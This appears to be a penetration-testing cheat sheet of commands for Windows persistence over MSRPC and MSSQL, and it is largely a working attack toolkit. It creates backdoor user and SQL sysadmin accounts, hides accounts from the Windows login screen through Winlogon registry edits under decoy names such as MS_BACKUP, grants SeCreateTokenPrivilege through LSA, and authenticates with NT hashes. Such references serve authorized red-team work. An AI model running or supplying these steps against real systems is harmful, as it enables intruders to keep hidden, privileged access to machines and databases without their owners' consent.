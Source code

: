 # Unix Shell

## 01 - MSRPC Port

### 1.1 - `net`

Create user

```
$ net <ads | rpc> user add "sysadmin" "s3cur3d+1T" [-F user flags] [-C comment] -U "[<domain>/]<username>%<password>" -S <IP>

$ net <ads | rpc> user add "sysadmin" "s3cur3d+1T" -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

Create group

```
$ net <ads | rpc> groupmember add <group_name> <remote_username> -U "[<domain>/]<username>%<password>" -S <IP>

$ net <ads | rpc> groupmember add <group_name> <remote_username> -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

### 1.2 - Impacket

Makes the user account invisible from the Windows Login screen

```
$ reg.py [<domain>/]<username>:"<password>"@<IP> add -keyName "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" -v sysadmin -vt REG_DWORD -vd 0

$ reg.py [<domain>/]<username>@<IP> -hashes :<nt_hash> add -keyName "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" -v sysadmin -vt REG_DWORD -vd 0
```

Persistence method to add user account

```
$ reg.py [<domain>/]<username>:"<password>"@<IP> add -keyName "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -v MS_BACKUP -vt REG_DWORD -vd 0

$ reg.py [<domain>/]<username>@<IP> -hashes :<nt_hash> add -keyName "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -v MS_BACKUP -vt REG_DWORD -vd 0
```

### 1.2 - `rpcclient`

Create domain user account

```
rpcclient $> createdomuser <username>

rpcclient $> setuserinfo2 <username> <level> <password>

rpcclient $> setuserinfo2 <username> 23 <password>

rpcclient $> setuserinfo2 <username> 24 <password>
```

Confirm the created user account exists.

```
rpcclient $> queryuser <username>
```

TODO: Fill this info

- LSA create account

```
rpcclient $> lsaenumsid

rpcclient $> lookupsids S-1-1-0
```

Lookup username accounts

```
rpcclient $> lookupnames <username>

rpcclient $> lsacreateaccount S-1-1-0
```

Lookup privileges

```
rpcclient $> enumprivs

rpcclient $> lsaaddpriv S-1-1-0 SeCreateTokenPrivilege

rpcclient $> lsaenumprivsaccount S-1-1-0
```

Delete then check

```
rpcclient $> lsadelpriv S-1-1-0 SeCreateTokenPrivilege

rpcclient $> lsaenumprivsaccount S-1-1-0
```

```
lsaaddacctrights S-1-5-21-3232368669-2512470540-2741904768-1103 SeCreateTokenPrivilege

lsaenumprivsaccount S-1-5-21-3232368669-2512470540-2741904768-1103

lsaremoveacctrights S-1-5-21-3232368669-2512470540-2741904768-1103 SeCreateTokenPrivilege

lsaenumprivsaccount S-1-5-21-3232368669-2512470540-2741904768-1103
```

## 02 - MSSQL Port

TODO: Fill this info

### 2.1 - SQSH

```
C:\> sqlcmd [-S <IP>] -E -Q

CREATE LOGIN <username> WITH PASSWORD = '<password>';
sp_addsrvrolemember '<username>', 'sysadmin';
go
```

### 2.2 - Impacket

```
$ mssqlclient.py -port 1433 -windows-auth <domain>/<username>:<password>@<IP>

$ mssqlclient.py -port 1433 -windows-auth <domain>/<username>@<IP> -hashes :<nt_hash>
```

### 2.3 - NetExec

```
$ netexec mssql -u "<username>" -p "<password>" [-d <domain> | --local-auth]

$ netexec mssql -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth]
```

---
## References

### Microsoft

- [Microsoft Open Specification: USER_INFORMATION_CLASS](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN)

### Hacktricks

- [Hacktricks: Pentesting MSSQL Microsoft SQL Server](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server.html)